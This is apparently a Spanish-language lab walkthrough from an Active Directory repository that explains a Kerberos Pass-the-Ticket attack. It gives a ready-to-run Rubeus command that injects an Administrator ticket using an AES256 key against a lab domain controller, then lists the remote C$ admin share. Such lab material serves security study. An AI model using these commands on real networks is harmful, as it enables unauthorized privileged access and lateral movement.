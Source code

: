 Pass-the-Ticket (PTT): Uso de tickets Kerberos comprometidos para acceder a recursos.

El ataque de Pass the Ticket se basa en Kerberos y permite a un atacante usar un ticket
Kerberos obtenido, como si fuera un usuario legítimo, para acceder a los recursos y
servicios en la red. En el caso de DCsync, si un atacante tiene acceso a tickets TGT
(Ticket Granting Ticket) de un usuario o de una cuenta privilegiada, puede usar estos
tickets para obtener acceso a otros servicios sin necesidad de credenciales adicionales.
https://www.netwrix.com/pass_the_ticket.html

Mediante Rubeus podemos realizar el ataque Pass the Ticket utilizando el siguiente comando:
.\Rubeus.exe asktgt /user:Administrador/aes256:adbc3ed526ed66b5633a9eec27b4cccbc4d6a1903aedfd6923437af3da26a87b/domain:cs.org /dc:172.16.1.51 /ptt

![alt text](https://github.com/Karovil/Active-Directory/blob/Andr%C3%A9s-Arbel%C3%A1ez/ptt1.png)

Una vez obtenido el ticket, podemos verificar su validez con klist, que muestra los
tickets activos de Kerberos en la memoria de la máquina:

![alt text](https://github.com/Karovil/Active-Directory/blob/Andr%C3%A9s-Arbel%C3%A1ez/ptt2.png)

Finalmente, con el ticket de Kerberos, podemos realizar una prueba de acceso a
recursos compartidos en la red. Usamos el siguiente comando para listar los contenidos
de la carpeta administrativa en un servidor remoto

ls \\SERVER.cs.org\C$

![alt text](https://github.com/Karovil/Active-Directory/blob/Andr%C3%A9s-Arbel%C3%A1ez/ptt3.png)

Este comando nos permite acceder al recurso compartido C$ en el servidor
SERVER.cs.org, utilizando el ticket Kerberos sin necesidad de autenticarnos con la
contraseña del usuario Administrador

